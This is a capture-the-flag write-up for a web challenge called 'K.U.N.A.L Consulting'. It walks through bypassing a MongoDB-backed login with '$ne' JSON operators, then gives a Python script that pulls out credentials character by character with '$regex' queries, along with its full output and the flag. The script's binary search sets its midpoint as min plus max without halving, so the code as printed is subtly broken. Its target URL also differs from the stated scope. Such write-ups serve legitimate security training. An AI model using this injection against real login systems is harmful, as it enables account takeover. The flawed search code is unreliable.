 # K.U.N.A.L Consulting

- Published: 12/24/2024 (#24/25 in event)
- Category: Web exploitation
- Points: 130
- Author: GodderE2D

“It was snowing this morning,” Agent Aspen said.

“I know it’s your last day—but we have something for you to do. It won’t take long, I promise.”

We’re anticipating that K.U.N.A.L himself is coming after our systems. We have this internal software that another
intern created a few years ago; we’ve been using it ever since they pitched it to Santa. Santa was impressed, but after
taking a closer look it doesn’t look very secure at all.

[https://elforms.csd.lol/](https://elforms.csd.lol/) (source code is attached)

---

_**You are only allowed to test in the scope `https://*elforms.csd.lol/*`.** Blind brute-force request sending (e.g.,
using tools like DirBuster) can trigger Cloudflare rate limits. Do not attempt to bypass Cloudflare limits. Therefore,
if you wish to brute-force, please limit your wordlists or attack scope._

## Attachments

- [Source code](https://files.vipin.xyz/api/public/dl/NcRnfu5V/Day%2024%20-%20ELForms/elforms.tar.gz)

## Hints

**Hint 1:**  
User input should never be trusted, especially not for authentication! As always, check out your browser’s DevTools
(particularly the Elements, Sources, and Network tabs).

**Hint 2:**  
JSON is all powerful; there’s more to it than strings. There’s also an “employee login” page. Humans don’t always have
the best memory and might re-use stuff.

## Write-up

<details>
<summary>Reveal write-up</summary>

Let's take a look at the client JavaScript on the customer login (`/customer-login`) page:

```js
const submitBtn = document.getElementById("submit");

submitBtn.addEventListener("click", async () => {
  const username = document.getElementById("username").value;
  const password = document.getElementById("password").value;

  // don't waste precious cpu cycles on the server
  if (username.length > 7 || password.length > 100) return alert("Invalid username/password");

  const response = await fetch("/login", {
    method: "POST",
    headers: {
      "Content-Type": "application/json",
    },
    body: JSON.stringify({ username, password }),
  });

  const text = await response.text();
  alert(text);

  if (response.status === 200) window.location.href = "/";
});
```

So, it seems like the username can have a maximum of 7 characters and the password can have a maximum of 100 characters.
Well, that doesn't sound very brute-forceable.

We can see that the request is being sent in JSON. Let's look at the JS on the employee login (`/employee-login`) page
now. It's identical to the customer login page, except the client-side checks for usernames and passwords are different:

```js
if (!/^[A-z0-9_]{1,16}$/.test(username)) return alert("Incorrect username/password");
if (!/^[A-z0-9_]{1,128}$/.test(password)) return alert("Incorrect username/password");
```

This [regular expression (regex)](https://en.wikipedia.org/wiki/Regular_expression) checks to see that the username and
password only contains alphanumerical characters or underscores. The maximum length for a username is 16 characters,
while it is 128 characters for passwords.

Well, that's not very useful. However, JSON allows for more than strings. Perhaps, it can accept objects?

A common database used in JavaScript is [MongoDB](https://en.wikipedia.org/wiki/MongoDB). In MongoDB, you can use
[query operators](https://www.mongodb.com/docs/manual/reference/operator/query/) to use more powerful matching filters.

One of them is `$ne`, which matches for everything _except_ what's entered:

```json
// POST /login
{
  "username": {
    "$ne": "test"
  },
  "password": {
    "$ne": "test"
  }
}
```

That returns:

```
Login successful! We have no customers though...so who are you?
```

Wow, it looks like it worked! (sorry about how guessy this was) But, this isn't very useful as we don't receive anything
in this request. We need to obtain a username and password to use in the employee login.

Unfortunately, the same attack doesn't work in `POST /employee-login`. But, our attack can tell us whether a username or
password was correct.

We don't have to guess each character one-by-one, though. MongoDB also offers a `$regex` operator, which allows us to
filter by regex! Through regex, we can optimize our attack and reduce the number of requests needed.

We can utilize a binary search approach:

```py
import re
from time import sleep
import requests

url = "https://kunal-consulting.csd.lol"

request_count = 0

path = "sign-up"
trigger = "taken"
username = ""

# Test a username or password to see if it passes the regex
def test_password(regex):
    global request_count, path, trigger, username

    if path == "login":
      data = {
          "username": username,
          "password": {
              "$regex": regex
          }
      }
    else:
      data = {
          "username": {
              "$regex": regex
          }
      }

    r = requests.post(f'{url}/{path}', json=data, allow_redirects=False)

    request_count += 1

    return trigger in r.text

# Binary search algorithm
def search_once(test_function, prefix=""):
    min = 0
    max = 127

    while min <= max:
        mid = (min + max)

        if test_function(fr'^{re.escape(prefix)}[\x{mid:02x}-\x7f]'):
            min = mid + 1
        else:
            max = mid - 1

    return chr(max)

# Keep searching until whole string found
def search(test_function):
    found = ""
    while True:
        found += search_once(test_function, prefix=found)
        print(found)

        if test_function(fr'^{found}$'):
            return found

username = search(test_password)

path = "login"
trigger = "successful"

password = search(test_password)

print("\nUsername: " + username)
print("Password: " + password)

print(f"Requests made: {request_count}")
```

For each character in the username, it will try half of all possible ASCII character values. If the server returns that
we were successful, that must mean that specific character belongs to that half of that ASCII value. Then, it will
continue to split the ASCII range in half until we find the actual character. It will then repeat this for each
character, until it finds every character.

Afterwards, the script uses the same method to find the password (although that takes just _slightly_ longer).

This script can actually be optimized by only using alphanumerical characters and underscores as seen in the original JS
code. I'll leave that as homework for you (definitely not because I'm lazy).

```
X
Xh
Xha
XhaN
XhaNy
XhaNy2
XhaNy22
r
re
rea
reas
reaso
reason
reasons
reasons_
reasons_i
reasons_i_
reasons_i_u
reasons_i_us
reasons_i_use
reasons_i_use_
reasons_i_use_a
reasons_i_use_a_
reasons_i_use_a_r
reasons_i_use_a_re
reasons_i_use_a_rea
reasons_i_use_a_real
reasons_i_use_a_reall
reasons_i_use_a_really
reasons_i_use_a_really_
reasons_i_use_a_really_l
reasons_i_use_a_really_lo
reasons_i_use_a_really_lon
reasons_i_use_a_really_long
reasons_i_use_a_really_long_
reasons_i_use_a_really_long_p
reasons_i_use_a_really_long_pa
reasons_i_use_a_really_long_pas
reasons_i_use_a_really_long_pass
reasons_i_use_a_really_long_passw
reasons_i_use_a_really_long_passwo
reasons_i_use_a_really_long_passwor
reasons_i_use_a_really_long_password
reasons_i_use_a_really_long_password_
reasons_i_use_a_really_long_password_1
reasons_i_use_a_really_long_password_1_
reasons_i_use_a_really_long_password_1_s
reasons_i_use_a_really_long_password_1_se
reasons_i_use_a_really_long_password_1_sec
reasons_i_use_a_really_long_password_1_secu
reasons_i_use_a_really_long_password_1_secur
reasons_i_use_a_really_long_password_1_securi
reasons_i_use_a_really_long_password_1_securit
reasons_i_use_a_really_long_password_1_security
reasons_i_use_a_really_long_password_1_security_
reasons_i_use_a_really_long_password_1_security_2
reasons_i_use_a_really_long_password_1_security_2_
reasons_i_use_a_really_long_password_1_security_2_t
reasons_i_use_a_really_long_password_1_security_2_to
reasons_i_use_a_really_long_password_1_security_2_to_
reasons_i_use_a_really_long_password_1_security_2_to_p
reasons_i_use_a_really_long_password_1_security_2_to_pr
reasons_i_use_a_really_long_password_1_security_2_to_pra
reasons_i_use_a_really_long_password_1_security_2_to_prac
reasons_i_use_a_really_long_password_1_security_2_to_pract
reasons_i_use_a_really_long_password_1_security_2_to_practi
reasons_i_use_a_really_long_password_1_security_2_to_practic
reasons_i_use_a_really_long_password_1_security_2_to_practice
reasons_i_use_a_really_long_password_1_security_2_to_practice_
reasons_i_use_a_really_long_password_1_security_2_to_practice_m
reasons_i_use_a_really_long_password_1_security_2_to_practice_my
reasons_i_use_a_really_long_password_1_security_2_to_practice_my_
reasons_i_use_a_really_long_password_1_security_2_to_practice_my_t
reasons_i_use_a_really_long_password_1_security_2_to_practice_my_ty
reasons_i_use_a_really_long_password_1_security_2_to_practice_my_typ
reasons_i_use_a_really_long_password_1_security_2_to_practice_my_typi
reasons_i_use_a_really_long_password_1_security_2_to_practice_my_typin
reasons_i_use_a_really_long_password_1_security_2_to_practice_my_typing
reasons_i_use_a_really_long_password_1_security_2_to_practice_my_typing_
reasons_i_use_a_really_long_password_1_security_2_to_practice_my_typing_s
reasons_i_use_a_really_long_password_1_security_2_to_practice_my_typing_sk
reasons_i_use_a_really_long_password_1_security_2_to_practice_my_typing_ski
reasons_i_use_a_really_long_password_1_security_2_to_practice_my_typing_skil
reasons_i_use_a_really_long_password_1_security_2_to_practice_my_typing_skill
reasons_i_use_a_really_long_password_1_security_2_to_practice_my_typing_skills
reasons_i_use_a_really_long_password_1_security_2_to_practice_my_typing_skills_
reasons_i_use_a_really_long_password_1_security_2_to_practice_my_typing_skills_3
reasons_i_use_a_really_long_password_1_security_2_to_practice_my_typing_skills_3_
reasons_i_use_a_really_long_password_1_security_2_to_practice_my_typing_skills_3_t
reasons_i_use_a_really_long_password_1_security_2_to_practice_my_typing_skills_3_to
reasons_i_use_a_really_long_password_1_security_2_to_practice_my_typing_skills_3_to_
reasons_i_use_a_really_long_password_1_security_2_to_practice_my_typing_skills_3_to_m
reasons_i_use_a_really_long_password_1_security_2_to_practice_my_typing_skills_3_to_me
reasons_i_use_a_really_long_password_1_security_2_to_practice_my_typing_skills_3_to_mes
reasons_i_use_a_really_long_password_1_security_2_to_practice_my_typing_skills_3_to_mess
reasons_i_use_a_really_long_password_1_security_2_to_practice_my_typing_skills_3_to_mess_
reasons_i_use_a_really_long_password_1_security_2_to_practice_my_typing_skills_3_to_mess_w
reasons_i_use_a_really_long_password_1_security_2_to_practice_my_typing_skills_3_to_mess_wi
reasons_i_use_a_really_long_password_1_security_2_to_practice_my_typing_skills_3_to_mess_wit
reasons_i_use_a_really_long_password_1_security_2_to_practice_my_typing_skills_3_to_mess_with
reasons_i_use_a_really_long_password_1_security_2_to_practice_my_typing_skills_3_to_mess_with_
reasons_i_use_a_really_long_password_1_security_2_to_practice_my_typing_skills_3_to_mess_with_y
reasons_i_use_a_really_long_password_1_security_2_to_practice_my_typing_skills_3_to_mess_with_yo
reasons_i_use_a_really_long_password_1_security_2_to_practice_my_typing_skills_3_to_mess_with_you

Username: XhaNy22
Password: reasons_i_use_a_really_long_password_1_security_2_to_practice_my_typing_skills_3_to_mess_with_you
Requests made: 832
```

It actually only took 832 requests to find the 7-character username and 97-character password!

Now that we have the username and password, we can login on the employee login page (`/employee-login`):

![Employee area page](/blog-assets/kunal-consulting-advent-of-ctf-2024/employee-area.png)

Well, that's something. ~~(elite ball knowledge)~~ Merry three-days-until-Christmas!

Flag: `csd{cOn5uL7iN9_CHIldR3N_5InC3_2009}`

</details>

Write-up by GodderE2D
